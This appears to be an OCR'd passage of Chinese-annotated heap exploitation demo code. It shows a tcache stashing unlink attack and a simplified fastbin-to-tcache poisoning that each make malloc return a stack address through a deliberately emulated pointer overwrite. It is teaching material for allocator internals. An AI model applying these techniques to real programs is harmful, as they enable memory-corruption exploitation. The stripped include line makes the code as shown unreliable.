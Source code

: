 ```
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);
 
    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");
 
    malloc(0xa0);// size > 0x90
 
    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");
 
    malloc(0x90);
    malloc(0x90);
 
    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);
 
    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/
 
    //trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");
 
    calloc(1,0x90);
 
    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);
 
    //malloc and return our fake chunk on stack
    target = malloc(0x90);  
 
    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);
 
    assert(target == &stack_var[2]);
    return 0;
} 
```

简化版本：

```
#include #include #include int main(){
    size_t stack_var[4];
    size_t *ptrs[14];
    for (int i = 0; i < 14; i++) ptrs[i] = malloc(0x40);
    for (int i = 0; i < 14; i++) free(ptrs[i]);
    for (int i = 0; i < 7; i++) ptrs[i] = malloc(0x40); // clean tcache
    size_t *victim = ptrs[7];
    victim[0] = (long)&stack_var[0] ^ ((long)victim >> 12); //poison fastbin
    malloc(0x40); // trigger,get one from fastbin then move the rest to tcache
    size_t *q = malloc(0x40);
    assert(q == &stack_var[2]);
} 
```
